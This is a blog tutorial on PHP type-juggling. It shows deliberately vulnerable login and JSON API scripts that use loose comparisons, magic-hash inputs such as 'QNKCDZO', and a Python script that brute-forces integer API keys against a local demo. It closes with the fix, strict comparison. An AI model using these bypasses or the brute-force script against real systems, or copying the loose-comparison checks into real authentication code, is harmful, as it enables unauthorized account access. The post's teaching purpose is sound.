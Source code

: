 ```yaml
---
layout: post
title: PHP Type-Juggling with Authentication Bypass example
excerpt: "PHP Type-Juggling explained with examples"
categories: [tutorials]
comments: true
tags: [php, authentication bypass]
---
```


Did you know that a single missing character in your code can cause your authentication mechanism to be broken and give
attackers the ability to bypass it ? Or maybe exploit your API to get valuable information, or bypass your CSRF protection, or in some cases even gain RCE.
So today I'm going to explain these attacks, how to exploit them, and how to avoid them. 

#### What is Type-Juggling

In PHP there are 2 main comparison methods called `loose` and `strict` comparisons 

> Loose Comparison (==) - Doesn't check the type of the given data

> Strict Comparison (===) - Does check the type of the given data

This kind of vulnerability lies on `Loose Comparisons`, and it happens because loose comparisons don't check the type of the data and will return `TRUE` if a string is compared to `0`. Example: `"0" == 0` will result in `TRUE` but also `"alb0z" == 0` will result in `TRUE`<br>
The image below shows the difference between `Loose Comparisons` and `Strict Comparisons`

![Difference between loose and strict comparisons](/img/Type-Juggling-1.png)

Developers that are not aware of this type of attack will usually compare data through something similar to this

{% highlight php %}
if (md5($string) == $key) 
{% endhighlight %}

So in this case if the `$key` starts with `0e`, then we can simply give a string that productes an another md5 hash which starts with `0e` in the `$string` variable, which we may give it through GET or POST requests or other types of input 

Some such string are `QNKCDZO` and `240610708`

A small example

![Type juggling example](/img/Type-Juggling-2.png)

In the examples below I will go more into details on how to exploit it

#### Example 1: Authentication Bypass

First I wrote this simple PHP authentication mechanism which doesn't use a database so you can reproduce the attack simpler and faster

{% highlight php %}
<?php 

// In a real world environment this would be in a database
$users = [
  "alb0z" => ["username" => "alb0z", "password" => "2ac9cb7dc02b3c0083eb70898e549b63"], // Password1
  "james" => ["username" => "james", "password" => "0e556485729818849153460746667456"] // Qxs2daYW123
];

$msg = "";

if(isset($_POST['login'])) { // If a login request has been sent
  if(!array_key_exists($_POST['username'], $users)) { // If user doesn't exist
    $msg = "Invalid username or password!";
  }else {
    $username = $_POST['username'];
    $password = $_POST['password'];
    if(md5($password) == $users[$username]['password']) { // Check if user has given a correct password (This is where the bug is)
      // A real world app would redirect us to the main page and set cookies, but for testing purposes I'm going to leave with just a message
      $msg = "Successfully logged in!";
    } else {
      $msg = "Invalid username or password!";
    }

  }
}

if(!empty($msg)) { echo $msg; }
?>

<form method="post">
  <input type="text" name="username" placeholder="Username"><br><br>
  <input type="password" name="password" placeholder="Password"><br><br>
  <button type="submit" name="login" value="1">Login</button>
</form>
{% endhighlight %}

Now notice the line where the script compares the md5 hash of the password in POST request with the md5 hash of the password saved in the database (array in this case)

{% highlight php %}
if(md5($password) == $users[$username]['password'])
{% endhighlight %}

We have 2 users `alb0z` and `james`, in this case we can't bypass into `alb0z` because the hash must start with `0e` in order to bypass it, but we can still log into `james` account.

Note: If the application accepts `json` then we can bypass all the hashes and not only the ones starting with `0e`, that's because HTTP sends all the data in string format, but with `json` we can send integers too. More details will be shown in the next example.

I am going to use `php -S 127.0.0.1:8000` to serve the login page, however you can use Apache too.

Now it's time to exploit it. I'm using `curl` to send POST requests, but the same thing can be achieved through your browser.

First sending a normal request with an invalid password to confirm that we can't simply login with a random password

![Normal curl request](/img/Type-Juggling-3.png)

And now let's try it with a string which produces a md5 hash that start with `0e` in this case I'm going to use `NWWKITQ`. First confirm that the string's hash gives us the desired hash, and then make the POST request using `curl`

![Exploit curl request](/img/Type-Juggling-4.png)

Now as we see we successfully gained access to user `james` without knowing his real password.

#### Example 2: Get access to other users data through API

In this example I'm going to show you how to exploit the vulnerability even when the hashes don't start with `0e`. For this to work, `json` data has to be accepted by the application.
Again I'm going to write/use a simple script without a database which will act like a real world API.

{% highlight php %}
<?php

header("Content-Type: application/json; charset=UTF-8");

// In a real world environment this would be in a database
$users = [ 
  'alb0z' => ['username' => 'alb0z', 'api_key' => '7c2fceb815553c50fa1c2e3fe4a108fc71d966b199f660ed048c32dfe5978aff', 'secret_data' => 'This is secret and only alb0z should be able to access it',],
  'james' => ['username' => 'james', 'api_key' => 'e682a16f3973fa12ecf221baa5b1e169157c44ef301180077fe48eae69fb7594', 'secret_data' => 'This is secret and only james should be able to access it'],
  'carl' => ['username' => 'carl', 'api_key' => '399d65963db11309b2f6e4a59094686b12133274b47c867e52b277b68a0ef39b', 'secret_data' => 'This is secret and only carl should be able to access it']
];

if($_SERVER['REQUEST_METHOD'] != 'POST') { die("Only post requests are allowed"); } // allow only post requests

$data = json_decode(file_get_contents("php://input")); // get any input sent to us and json decode it

$return = [];

if(!property_exists($data, "username") or !property_exists($data, "api_key")) { // check if username and api_key are in json data we received
  $return['error'] = "username and api_key required";
  die(json_encode($return));
}

if(!array_key_exists($data->username, $users)) { // check if received username exist
  $return['error'] = "username not found";
  die(json_encode($return));
}

if($data->api_key != $users[$data->username]['api_key']) { // Check if the given api_key is valid for the given user
  $return['error'] = "api_key is not valid ";
  die(json_encode($return));
}else {
  $return = $users[$data->username];
  unset($return['api_key']);
  die(json_encode($return)); // if everything is okay, then print secret data 

}

?>
{% endhighlight %}

So basically what this script does is accept json data and return some "secret" data for the user. In a real world app the API could do anything from returning personal user information to sending messages, deleting posts or purchasing products in an e-commerce.

Now starting to analyze the code. First thing we should notice is this line that checks if the api_key is not valid, if it is not valid it stops the execution, but if it is then it returns the data. 

{% highlight php %}
if($data->api_key != $users[$data->username]['api_key'])
{% endhighlight %}

`!=` is the opposite of `==` but it still is a loose comparison, so it is still vulnerable.

We have 3 users on the API database (array in this case) `alb0z`,`james` and `carl`, and all three of them have private api keys 64 characters long.

As the API only accepts json, we need to send json through http, and I'm going to do that using `curl` and I will check both using a valid and an invalid key


![API curl check](/img/Type-Juggling-5.png)

Now as the valid api key start with 7, we can simply send an integer with 7 as value in api_key field and that will bypass the api key check.

![API curl exploit 1](/img/Type-Juggling-6.png)

Let's continue to get other users' data. As `james` api_key starts with a letter, we can use 0 as api_key to get his data

![API curl exploit 2](/img/Type-Juggling-7.png)

Time to get user `carl`, his api_key starts with 3, and we try to send a 3 as integer in api_key field, however that is not going to work in this case as his api_key has 3 numbers until the first letter (if the key starts with a number we need to set the api_key in json to first part of numbers of the original api_key ) `399d65963db11309b2f6e4a59094686b12133274b47c867e52b277b68a0ef39b` so we need to use 399 as the api_key to get access to his data.

But in a real world api we don't have access to the keys, so we may need to brute force the integer we need to use.

And I wrote this simple python script to do the brute forcing for us.

{% highlight python %}
#!/usr/bin/env python3
import requests


target = "http://localhost:8000/api.php"

valid_usernames = ['alb0z', 'james', 'carl'] # valid users you know
json_data = '{"username": "%s", "api_key": %s}' # json data to send

for user in valid_usernames:
    for i in range(0,10000): #brute force which api_key integers will work
        post_req = json_data % (user, i)
        req = requests.post(target, data=post_req) # send the request
        if "api_key is not valid" not in req.text: 
            print("Data for user: %s with %i as api_key: %s" % (user, i, req.text))
            break
{% endhighlight %}

And when run, it finds the numbers for us.

![API curl exploit 2](/img/Type-Juggling-8.png)

#### Where to find hashes which start with `0e` 
Hashes that start with `0e` are called magic hashes and you can find many types of them here <a href="https://github.com/spaze/hashes">https://github.com/spaze/hashes</a>


#### How to prevent it

These type of bugs are probably the easiest ones to fix, one needs to use strict comparisons instead of loose comparisons

so this 
{% highlight php %}
if (md5($string) == $key) 
{% endhighlight %}
needs to becomes this
{% highlight php %}
if (md5($string) === $key) 
{% endhighlight %}
<br>